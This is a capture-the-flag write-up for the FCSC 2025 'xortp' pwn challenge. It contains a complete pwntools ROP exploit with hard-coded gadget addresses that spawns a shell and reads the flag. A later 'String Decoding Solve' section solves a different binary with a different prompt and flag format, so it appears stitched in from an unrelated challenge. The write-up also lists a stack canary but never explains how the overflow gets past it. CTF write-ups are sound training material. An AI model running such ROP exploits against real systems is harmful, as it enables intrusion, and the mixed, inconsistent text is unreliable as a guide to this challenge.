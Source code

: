 ```yaml
---
title: "FCSC 2025 - Challenge Xortp"
date: 2025-04-28
tags: ["Pwn"]
categories: ["Pwn"]
ctfs: ["fcsc"]
---
```

# Writeup: xortp

## Challenge Overview

This challenge involves exploiting a buffer overflow vulnerability in the "xortp" binary to gain a shell and read the flag. The exploit leverages Return-Oriented Programming (ROP) to bypass modern security protections.

## Binary Analysis

The binary has the following protections:
- Architecture: amd64-64-little
- RELRO: Partial RELRO
- Stack: Canary found
- NX: NX enabled (No execution on stack)
- PIE: No PIE (fixed base address at 0x400000)
- Not stripped

The key vulnerability appears to be a buffer overflow that allows overwriting the return address despite stack canaries being enabled.

## Vulnerability and Exploitation

The vulnerability is a classic buffer overflow where we can overwrite the return address. Since NX is enabled, we cannot directly execute shellcode on the stack. Instead, we use ROP to chain together existing code fragments (gadgets) to execute a system call.

### Exploitation Strategy

1. Overflow the buffer to control the instruction pointer  
2. Build a ROP chain to execute `execve("/bin/sh", 0, 0)` syscall  
3. Get a shell and read the flag  

---

### 🔧 Syscall Calling Convention Reference

| Architecture      | Syscall Number Reg | Argument 1 | Argument 2 | Argument 3 | Argument 4 | Argument 5 | Argument 6 | Return Value | Instruction |
|------------------|--------------------|------------|------------|------------|------------|------------|------------|---------------|-------------|
| **x86 (32-bit)** | `eax`              | `ebx`      | `ecx`      | `edx`      | `esi`      | `edi`      | `ebp`      | `eax`         | `int 0x80`  |
| **x86_64**       | `rax`              | `rdi`      | `rsi`      | `rdx`      | `r10`      | `r8`       | `r9`       | `rax`         | `syscall`   |
| **ARM (32-bit)** | `r7`               | `r0`       | `r1`       | `r2`       | `r3`       | `r4`       | `r5`       | `r0`          | `svc 0`     |
| **ARM64**        | `x8`               | `x0`       | `x1`       | `x2`       | `x3`       | `x4`       | `x5`       | `x0`          | `svc 0`     |

This table is especially useful in ROP-based attacks where we construct a syscall manually by populating the appropriate registers using gadgets.

---

### ROP Chain Details

Our goal is to execute the `execve` syscall (syscall number 59) with the following arguments:
- `rdi` = pointer to "/bin/sh" string (first argument)
- `rsi` = 0 (second argument - argv, set to NULL)
- `rdx` = 0 (third argument - envp, set to NULL)
- `rax` = 59 (syscall number for execve)

We use the following ROP gadgets:
```
pop_rdi = 0x0000000000401f60       # Control first argument
pop_rsi = 0x000000000040f972       # Control second argument
pop_rax_rdx_rbx = 0x00000000004867a6  # Control syscall number and third argument
syscall_gadget = 0x00000000004011a2  # Execute the syscall
```

The string "/bin/sh" was found at address 0x00498213 in the binary.

### Buffer Size

The required padding before reaching the return address is 152 bytes.

## Exploit Implementation

The exploit script uses pwntools to construct and send the payload:

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('xortp')

# ROP gadgets
pop_rax = 0x00000000004424f7   
pop_rsi = 0x000000000040f972   
pop_rdi = 0x0000000000401f60   
pop_rax_rdx_rbx = 0x00000000004867a6  
syscall_gadget = 0x00000000004011a2  

addr_bin_sh = 0x00498213          

# Connect to the process
io = process('./xortp')  # or remote("host", port)

# Syscall parameters for execve("/bin/sh", 0, 0)
path = addr_bin_sh    # First argument: path to binary
argv = 0              # Second argument: argument array (NULL)
envp = 0              # Third argument: environment variables (NULL)
syscall_num = 59      # Syscall number for execve

BUFFER = 152  # Size of buffer before return address

# Construct the payload
payload = flat(
    b'A'*BUFFER,      # Padding to reach return address
    p64(pop_rdi),     # Pop path into RDI (first argument)
    p64(path),        # Address of "/bin/sh" string
    p64(pop_rsi),     # Pop 0 into RSI (second argument)
    p64(argv),        # NULL for argv
    p64(pop_rax_rdx_rbx),  # Pop syscall number into RAX and third argument into RDX
    p64(syscall_num), # Syscall number for execve (59)
    p64(envp),        # NULL for envp (third argument)
    p64(0),           # Dummy value for RBX
    p64(syscall_gadget)  # Execute the syscall
)

# Send the payload
io.sendline(payload)
io.sendline("id && cat flag.txt")  # Run commands in the obtained shell
io.interactive()
```

## Execution Flow

1. We send a payload that fills the buffer with 152 'A's to reach the return address  
2. The ROP chain is executed:  
   - `pop_rdi` gadget pops the address of "/bin/sh" into RDI  
   - `pop_rsi` gadget pops 0 into RSI  
   - `pop_rax_rdx_rbx` gadget pops 59 into RAX (syscall number), 0 into RDX, and a dummy value into RBX  
   - `syscall_gadget` executes the syscall, which runs execve("/bin/sh", 0, 0)  
3. We now have a shell and can read the flag with `cat flag.txt`  

## Flag

After gaining the shell, we can read the flag with `cat flag.txt` command.

## String Decoding Solve

This challenge also features a hidden string in the binary, which is simply encoded by decrementing each character by 1. Here is a minimal Python script to recover the solution:

```python
def decode_string():
    encoded = "IUC|t2nqm4`gm5h`5s2uin4u2d~"
    decoded = ""
    for char in encoded:
        decoded += chr(ord(char) - 1)
    print(f"[+] Encoded string: {encoded}")
    print(f"[+] Decoded string: {decoded}")
    return decoded

solution = decode_string()
print("\n[*] To solve the challenge, enter this solution when prompted:")
print(f">>> {solution}")
```

**Exploit steps:**
1. Run the binary: `./a.out`
2. When prompted for the magic incantation, enter the decoded string above.
3. The flag will be displayed.

---

## Exploit Script (pwntools)

If you want to automate the process using pwntools:

```python
from pwn import *

encoded = "IUC|t2nqm4`gm5h`5s2uin4u2d~"
decoded = ''.join([chr(ord(c)-1) for c in encoded])

p = process('./a.out')
p.recvuntil(b"magic")
p.sendline(decoded.encode())
print(p.recvall().decode())
```

This script will launch the binary, wait for the prompt, send the decoded string, and print the output (including the flag).

## Conclusion

This challenge demonstrates a classic ROP-based exploitation technique to bypass NX protection. By chaining together existing code gadgets, we can execute arbitrary system calls without injecting executable code onto the stack.